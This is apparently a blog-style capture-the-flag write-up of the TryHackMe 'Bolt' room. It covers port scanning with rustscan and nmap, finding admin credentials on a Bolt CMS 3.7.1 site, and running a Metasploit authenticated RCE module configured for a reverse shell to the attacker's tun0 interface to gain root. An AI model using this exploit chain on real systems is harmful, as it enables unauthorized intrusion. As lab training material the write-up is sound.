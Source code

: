 ```yaml
---
layout: post
title: "Bolt"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Security, Web, Bolt, RCE]
image: ../../assets/img/posts/Bolt.png 

---
```


## Description

A hero is unleashed. 

|**Room**|[Bolt](https://tryhackme.com/room/bolt)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[0x9747](https://tryhackme.com/p/0x9747)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.197.181
```

![image](https://user-images.githubusercontent.com/67465230/159212107-dfa3f645-460a-4de1-a4d1-3fc65ffc2a13.png)

we got 3 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p22,80,8000 10.10.197.181
```

![image](https://user-images.githubusercontent.com/67465230/159212117-6e1c1401-0751-4442-9dcf-7437dc9531ca.png)
![image](https://user-images.githubusercontent.com/67465230/159212127-b9ac7c27-27a7-4dde-b5eb-6e5604a5984a.png)


Scan results describes that port 22 is running ssh service, port 80 is running apache webserver and port 8000 is running a different webserver

Visiting http://10.10.197.181,

![image](https://user-images.githubusercontent.com/67465230/159212132-105a7992-267e-4e66-865c-d80cc1fb5554.png)

We landed on apache default webpage. But there is nothing we can find here.

So, our next target will be http://10.10.197.181:8000,

![image](https://user-images.githubusercontent.com/67465230/159212141-86dc9a7b-f6f2-4807-a044-a6f72ed7cda5.png)

We will land on a website which is made with bolt cms.

Scrolling down, there is a blog post on which admin username is revealed, i.e. bolt,

![image](https://user-images.githubusercontent.com/67465230/159212149-160208b5-c3a0-43f3-aac1-fd8a86a70f1f.png)

Scrolling up a bit, there is password revealed by admin, i.e. `************`,

![image](https://user-images.githubusercontent.com/67465230/159212168-7d7de68f-12c6-4c21-9ee8-07817812e375.png)

After searching this service, I found that version of this software is 3.7.1,

![image](https://user-images.githubusercontent.com/67465230/159212174-73e22365-698c-441e-af2a-d127fbb60190.png)

Now, we can boot up the metasploit in order to exploit this vulnerability and we will use an rce,

```bash
use exploit/unix/webapp/bolt_authenticated_rce
```

![image](https://user-images.githubusercontent.com/67465230/159212193-0e5967c8-da99-4836-b2dc-3dd53c82cc4e.png)

setting options:

- **set username bolt**
- **set password boltadmin123**
- **set lhost tun0**
- **set lport 4444**
- **set rhosts 10.10.197.181**

Fire up this module using run,

![image](https://user-images.githubusercontent.com/67465230/159212201-6f44c8b5-29ed-4572-b35a-ba0442d6a176.png)

and we will get a shell. Issuing id command reveals us that we are root user.

We can find the file name flag.txt in whole system using find command, 

```bash
find / -name flag.txt -type f 2>/dev/null
```

Now, navigate to root directory,

![image](https://user-images.githubusercontent.com/67465230/159212213-3e722881-a61b-451d-bc2a-da8d6067225e.png)

and we can see our root flag.